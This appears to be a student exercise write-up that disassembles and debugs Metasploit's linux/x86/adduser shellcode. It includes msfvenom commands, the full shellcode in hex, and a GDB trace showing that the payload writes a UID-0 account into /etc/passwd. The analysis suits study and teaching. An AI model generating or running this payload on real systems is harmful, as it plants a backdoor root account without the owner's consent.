










# Exercise 5

## 5.1 Payload *linux/x86/adduser*


### Check options
```
msfvenom -p linux/x86/adduser --list-options
```


There are 3 basic options:

- PASS: The password for this user (Required). Default: metasploit
- SHELL: The shell for this user. Default: /bin/sh
- USER: The username to create (Required). Default: metasploit

For this study we will use the three basic options:

```
msfvenom -p linux/x86/adduser USER=ricardo PASS=sectube SHELL=/bin/bash --platform=Linux -a x86 -f c
```


### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f c USER=ricardo PASS=sectube SHELL=/bin/bash | grep '"' | sed -e 's/\"//g' | paste -sd "" - | tr ";" " "
```

Using it, we get the shellcode we will use for the study of the payload:




### Libemu

Libemu does not show any output in this case:



When the PNG picture is generated it is empty.


### Ndisasm

With ndisasm it is possible to get the .nasm code using:

```
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f raw USER=ricardo PASS=sectube SHELL=/bin/bash | ndisasm -u -
```


Or a little quicker:

```
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```


Using awk it is possible to get only the part we want and create a .nasm file:

```
echo -e "section .text\nglobal _start \n_start:" > 1.nasm

echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 1.nasm
```


It seems ok:


With a little bit of indentation, the nasm file is created and ready to be studied. 


### Studying the syscalls

Given we have the nasm code, the first thing to do will be studying the different syscalls. We can do this checking the lines containing "int 0x80" in the code. 

In this case we have four syscalls:



The most important in this case is checking the value of the register EAX to check what type of syscall is being used. The two first syscalls seem to use the values 0x46 and 0x5 (we will check later using GDB):


The two last syscalls seem to use the values 0x4 and 0x1:




After checking the */usr/include/i386-linux-gnu/asm/unistd_32.h* file, the syscalls seem to be:

- Syscall 1 (Value 0x46 or 70 in decimal): setreuid() - *It sets real and effective user IDs of the calling process*.

- Syscall 2 (Value 0x5 or 5 in decimal): open() - *It opens the file specified by pathname*.

- Syscall 3 (Value 0x4 or 4 in decimal): write()

- Syscall 4 (Value 0x1 or 1 in decimal): exit() - *It causes normal process termination and the value of status & 0377 is returned to the parent*


### Strings study

Before opening GDB, it may be a good idea to some hexadecimal values which could be strings used by the program.

There are some values used in the second syscall:


And one in the third


For this i wrote a simple script to translate the hexadecimal values to ascii:


The values used in the second syscall are '/etc//passwd', while the value in the third does not seem to be an ascii value:


### Generating the executable

Next, the executable gets generated using the *shellcode.c* script:



It is compiled:

```
gcc -fno-stack-protector -z execstack shellcode.c -o 1
```

An executable named "1" gets generated. It is possible to execute it and check the "/etc/passwd" file to check if the user has been correctly generated.


In this case, it was executed twice so there are two lines at the bottom of the file.


Also note that if we study the binary there are interesting strings we can find (this one will appear again later):




### Study with GDB

First, the executable is attached in quiet mode:

```
gdb -q 1
```
Then, we set the disassembly flavor and jump into the "main" function (the one from shellcode.c):



Now, we must jump to the shellcode, so we set a breakpoint in the last 'call eax' instruction visible in the previous screenshot (the previous call instructions show the length of the shellcode).

We continue for one instruction using 'stepi' and the 'disassemble' command shows we have reached the shellcode:


Now, all the shellcode with the four syscalls can be read:


The first syscall is the one in 0x00404047, so we create a breakpoint in there and see the value of the registers:


The EAX value is 70 so in fact it is a setreuid() syscall. The value of EBX and ECX registers is 0, so the the reak and effective user ID of the process will be 0:



Next syscall is the one in 0x00404063, Before continuing a quick "hook-stop" is defined:


Then, the next breakpoint is reached. 


The values are:

- EAX = 5 => Syscall is open()

- EBX = -1073745172 => The stack address, where the three hexadecimal values are stored (which we saw before are translated to '/etc//paswwd')

- ECX = 1025 => The "flags" value. These value represents the permissions used in this operation (in this case the file is opened with read and write permissions).

For understanding every value, the man page is read:


Next, in the third syscall there is a "call" instruction to a function which we could not obtain using ndisasm:



Before continuing to check the values in the next syscall, we must find out what this function does. We write the instructions from that point and realise the instructions are different to what gdb shows at first:


I set a break point at 0x404093 and see the next instructions:


We continue debugging and get to 0x00404099, the third syscall. At this point we are aware we "jumped" from 0x00404066 to 0x404092 and it seems we did nothing with those instructions. But... did we? 


Well, we did! This is the string we found before, containing the line we will add to /etc/passwd. After the "call", this string address is stored in the stack. Then, the instruction in 0x404092 pops its value and now ecx has that address.




We set a breakpoint in 0x00404099 and check the registers values:


These are:

- EAX = 4 => Syscall is write()

- EBX = 3 => File descriptor

- ECX = 4210795 => Address of the characters to write

- EDX = 39 => Number of bytes to write 

So, after this the file gets a new line.

Finally, the fourth syscall is the EXIT call, which ends the program:


Now we can update the nasm code deleting the unused opcodes and adding the string we found.
